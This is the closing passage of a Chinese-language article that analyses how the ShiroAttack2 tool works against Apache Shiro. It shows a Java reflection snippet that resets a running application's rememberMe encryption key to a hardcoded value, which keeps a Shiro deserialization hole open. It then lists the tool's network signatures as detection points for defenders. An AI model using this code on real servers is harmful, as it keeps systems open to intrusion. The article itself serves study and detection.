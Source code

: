       8.             //判断保存的类型是否为ShiroFilterFactoryBean
    
      9.             if (obj.getClass().toString().contains("ShiroFilterFactoryBean")) {
    
      10.                 field = obj.getClass().getSuperclass().getDeclaredField("securityManager");
    
      11.                 field.setAccessible(true);
    
      12.                 obj = field.get(obj);
    
      13.                 field = obj.getClass().getSuperclass().getDeclaredField("rememberMeManager");
    
      14.                 field.setAccessible(true);
    
      15.                 obj = field.get(obj);
    
      16.                 java.lang.reflect.Method setEncryptionCipherKey = obj.getClass().getSuperclass().getDeclaredMethod("setEncryptionCipherKey", new Class[]{byte[].class});
    
      17.                 byte[] bytes = this.base64Decode("FcoRsBKe9XB3zOHbxTG0Lw==");
    
      18.                 setEncryptionCipherKey.invoke(obj, new Object[]{bytes});
    
      19.                 java.lang.reflect.Method setDecryptionCipherKey = obj.getClass().getSuperclass().getDeclaredMethod("setDecryptionCipherKey", new Class[]{byte[].class});
    
      20.                 setDecryptionCipherKey.invoke(obj, new Object[]{bytes});
    
      21.             }
    
      22.         }
    
    
    

## 总结

通过学习师傅写的工具，对很多技术的实现细节有了一些了解，确实也学到了很多。最后总结部分我想简单聊一下这个工具的利用特征。

  * ·在验证key或者爆破key前，会发送RemeberMe=1，如果检测到Cookie中包含`RemeberMe=1`直接将请求断开，会导致这个工具无法检测密钥，后续的功能也将无法用。

  * 利用链爆破部分会发送`Ctmd:08fb41620aa4c498a1f2ef09bbc1183c`作为是否可以回显的标志，这一部分是硬编码的，所以如果检测到包含`Ctmd:08fb41620aa4c498a1f2ef09bbc1183c`，也是有人正在利用该工具检测shiro

  * 内存马注入时，会在请求中加上`p`和`path`参数，并且会在post请求中加上`dy`参数。

## 参考

  * ShiroAttack2

  * Java内存马：一种Tomcat全版本获取StandardContext的新方法

  * Java中间件通用回显方法的问题及处理(7.7更新)

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# ShiroAttack2工具原理分析
